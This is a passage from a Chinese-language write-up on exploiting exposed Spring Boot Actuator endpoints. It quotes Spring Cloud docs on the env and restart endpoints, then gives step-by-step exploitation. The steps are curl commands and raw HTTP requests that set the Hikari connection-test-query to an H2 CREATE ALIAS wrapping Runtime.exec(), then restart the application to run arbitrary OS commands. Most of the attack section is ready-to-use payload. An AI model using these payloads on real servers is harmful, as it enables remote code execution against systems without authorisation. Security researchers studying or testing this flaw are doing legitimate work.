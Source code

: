 因此只有[Spring Cloud](https://cloud.spring.io/spring-cloud-static/spring-cloud-commons/2.1.3.RELEASE/single/spring-cloud-commons.html#_endpoints)微服务应用程序的Actuator才有可能支持以上两个端口的POST方法。以下是Spring Cloud的官方文档节选：

> For a Spring Boot Actuator application, some additional management endpoints are available. You can use:
>
> - `POST` to `/actuator/env` to update the `Environment` and rebind `@ConfigurationProperties` and log levels.
> - `/actuator/refresh` to re-load the boot strap context and refresh the `@RefreshScope` beans.
> - `/actuator/restart` to close the `ApplicationContext` and restart it (disabled by default).
> - `/actuator/pause` and `/actuator/resume` for calling the `Lifecycle` methods (`stop()` and `start()` on the `ApplicationContext`).

# 四、漏洞利用方法：

> ⚠️ 注意：在SpringBoot运行期间，设置的别名(如下为EXEC别名)命名不能重复使用。如果设置的别名与某次别名相同，则restart后无法执行命令。另外，以下测试手段均有可能影响业务运行，请谨慎操作！

## 1、设置hikari数据库连接池的connection-test-query配置项

使用curl：

```sh
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'执行的操作系统命令\');\"}' 'http://localhost:8080/actuator/env'
```

或者发包：

```http
POST /actuator/env HTTP/1.1
Content-type: applicaiton/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL EXEC('执行的操作系统命令');"}
```

## 2、重启actuator

使用curl：

```sh
curl -X 'POST' -H 'Content-Type: application/json' 'http://localhost:8080/actuator/restart'
```

或者发包：

```http
POST /actuator/restart HTTP/1.1
Content-type: applicaiton/json

```
